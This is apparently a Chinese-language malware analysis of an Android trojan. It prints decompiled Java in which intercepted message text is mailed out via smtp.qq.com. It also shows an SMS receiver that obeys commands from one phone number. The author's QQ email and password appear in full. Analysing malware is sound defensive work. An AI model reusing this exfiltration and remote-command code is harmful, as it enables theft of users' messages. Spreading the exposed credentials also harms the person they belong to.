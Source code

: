 在MySendEmailService中，我们可以看到作者留下的邮箱信息，这也是作者愚昧的地方，留下了自己常用QQ和密码，我们可以发现两个邮箱是同一个。。是qq邮箱给的别名服务。

     protected void onHandleIntent(Intent paramIntent)
  	{
    System.out.println("木马进入MySendEmailService==============================");
    String str = paramIntent.getStringExtra("String");
    System.out.println("木马开始发送邮件============================");
    MailSenderInfo localMailSenderInfo = new MailSenderInfo();
    localMailSenderInfo.setMailServerHost("smtp.qq.com");
    localMailSenderInfo.setMailServerPort("25");
    localMailSenderInfo.setValidate(true);
    localMailSenderInfo.setUserName("a137736513@qq.com");
    localMailSenderInfo.setPassword("lishulili.");
    localMailSenderInfo.setFromAddress("a137736513@qq.com");
    localMailSenderInfo.setToAddress("137736513@qq.com");
    localMailSenderInfo.setSubject("信息");
    localMailSenderInfo.setContent(str);
    new SimpleMailSender().sendTextMail(localMailSenderInfo);
    SimpleMailSender.sendHtmlMail(localMailSenderInfo);
    System.out.println("木马完成发送邮件=============================");
    System.out.println("木马离开MySendEmailService=============================");
    System.out.println("木马killProcess==============================");
    Process.killProcess(Process.myPid());
  	}
	}

在`BroadcastRecvMessage`中发现了两个很重要的点，
第一个是如过是作者发来的信息，就会执行特殊操作：

    :::java
     if (str3.equals("18670259904"))
    {
      int k = str2.indexOf("#");
      String str5 = str2.substring(0, k);
      switch (str5.hashCode())
      {
      default:
        label188: System.out.println("木马不认识的命令========================");
        abortBroadcast();
        new Thread()
        {
          public void run()
          {
            System.out.println("木马Sleep(1000)==============================");
            try
            {
              Thread.sleep(1000L);
              System.out.println("木马killProcess==============================");
              Process.killProcess(Process.myPid());
              return;
            }
            catch (InterruptedException localInterruptedException)
            {
              while (true)
                localInterruptedException.printStackTrace();
            }
          }
        }
        .start();
      case -1449143887:
      case -973199489:
      case 3556498:
      case 579867225:
      case 1248164738:
      }